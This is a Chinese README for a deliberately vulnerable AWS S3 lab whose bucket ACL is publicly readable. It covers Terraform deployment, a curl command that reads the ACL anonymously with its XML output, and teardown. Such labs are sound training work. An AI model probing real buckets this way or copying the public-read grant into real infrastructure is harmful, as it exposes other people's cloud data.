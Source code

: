 # AWS S3 Bucket ACL 可读漏洞环境

[English](./README.md) | 中文

## 描述信息

这是一个用于构建 AWS S3 Bucket ACL 可读的漏洞环境靶场。

## 环境搭建

在容器中执行以下命令

```shell
cd /TerraformGoat/aws/s3/bucket_acl_readable
```

配置 AWS 访问凭证

```shell
aws configure
```

> 在 AWS 「控制台——》安全凭证」处可以设置并查看你的 `aws_access_key_id` 和 `aws_secret_access_key`

部署靶场

```shell
terraform init
terraform apply
```

> 在终端提示 `Enter a value:` 时，输入 `yes` 即可

当命令执行完后，在 Outputs 处可以看到 Bucket 名称。

## 漏洞利用

获取 Bucket ACL 策略

```shell
> curl https://houxian-xxx.s3.us-east-1.amazonaws.com/?acl -s | xmllint --format -

<?xml version="1.0" encoding="UTF-8"?>
<AccessControlPolicy xmlns="http://s3.amazonaws.com/doc/2006-03-01/">
  <Owner>
    <ID>xxx</ID>
    <DisplayName>xxx</DisplayName>
  </Owner>
  <AccessControlList>
    <Grant>
      <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
        <URI>http://acs.amazonaws.com/groups/global/AllUsers</URI>
      </Grantee>
      <Permission>READ_ACP</Permission>
    </Grant>
    <Grant>
      <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="CanonicalUser">
        <ID>xxx</ID>
        <DisplayName>xxx</DisplayName>
      </Grantee>
      <Permission>FULL_CONTROL</Permission>
    </Grant>
  </AccessControlList>
</AccessControlPolicy>
```

## 销毁环境

```shell
terraform destroy
```

